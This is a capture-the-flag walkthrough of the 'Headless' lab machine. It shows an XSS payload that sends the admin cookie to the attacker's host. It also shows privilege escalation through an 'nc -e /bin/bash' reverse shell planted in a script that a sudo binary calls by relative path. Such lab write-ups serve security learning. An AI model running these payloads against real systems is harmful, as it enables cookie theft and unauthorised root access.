

<div style="display: flex; align-items: center;">
  
  <div>
    <p style="font-size:35px;"><b>Headless</b></p>
    <p style="font-size:20px;">Linux • <font color="#8ac73e">Easy</font></p>
  </div>
</div>

## Nmap

We have the machine IP.\
Through an nmap scan we see the following:
```bash
$ nmap -p- -sV -sC -T4 10.10.11.8
...
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
...
5000/tcp open  upnp?
...
```

## Website

When accessing `http://10.10.11.8:5000/` we get a mostly blank page with a box and a countdown for when the site will be live.\
It also includes a button that leads to `/support` with a contact form that seems to be working.

We will look for any directories other than `/` and `/support`.
```bash
$ gobuster dir -u http://10.10.11.8:5000 -w /usr/share/wordlists/dirb/big.txt                                           
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.8:5000
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/dashboard            (Status: 500) [Size: 265]
/support              (Status: 200) [Size: 2363]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

We find `/dashboard`, and we get a `401 UNAUTHORIZED` when accessing it.

## Check /support form

Unfortunately, when trying to inject this `<script>alert('testing')</script>` into one of the fields we get a `Hacking Attempt Detected` message :(


## XSS to steal cookie

Well, that didn't work, but we did see that it returned us the request headers.

We know that we need an administrator's cookie in order to access the blocked resources, so we'll try to steal a cookie using xss.\
We will be following [n00's article](https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e).

```bash
$ nc -lvp 4444
listening on [any] 4444 ...
```

By adding `<script>var i=new Image(); i.src="http://10.10.14.31:4444/?cookie="+btoa(document.cookie);</script>` in our request (in the Repeater tab in Burp), we will get a response to our server.


We will decode the cookie.
```bash
$ echo "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```
Now we can use it in our browser, and access `/dashboard`!

## Dashboard


We send a request and once again send in to Repeater in Burp.\
We see that manipulating the parameter this time (date) doesn't raise any errors, and even returns some results.


We set up a netcat server once more, to try and get access to bash.


We can use script as shown by [zweilosec](https://zweilosec.github.io/posts/upgrade-linux-shell/) to upgrade it to interactive shell: `script -qc /bin/bash /dev/null`, as well as `export PS1='\[\033[01;32m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]\$ '`.\


## Looking for flags

We find the user flag at `/home/dvir/user.txt`.

This following one took a while to be honest, but we find this:
```bash
dvir@headless:~/app$ sudo -l
sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

Checking out `syscheck` we see that it executes a program called `initdb.sh`, with no specified full path. So all we have to do is create our own `initdb.sh` and execute it in place of the "original" `initdb.sh`.

We open another listener with netcat and then:

```bash
dvir@headless:~/app$ echo "nc -e /bin/bash 10.10.14.31 4444" > initdb.sh
dvir@headless:~/app$ chmod +x initdb.sh
dvir@headless:~/app$ sudo /usr/bin/syscheck
```

Now we have a bash with root access, and can get the flag!

```bash
$ nc -lvp 4444
listening on [any] 4444 ...
connect to [10.10.14.48] from headless.htb [10.10.11.8] 58568
script -qc /bin/bash /dev/null
root@headless:/home/dvir/app#
```
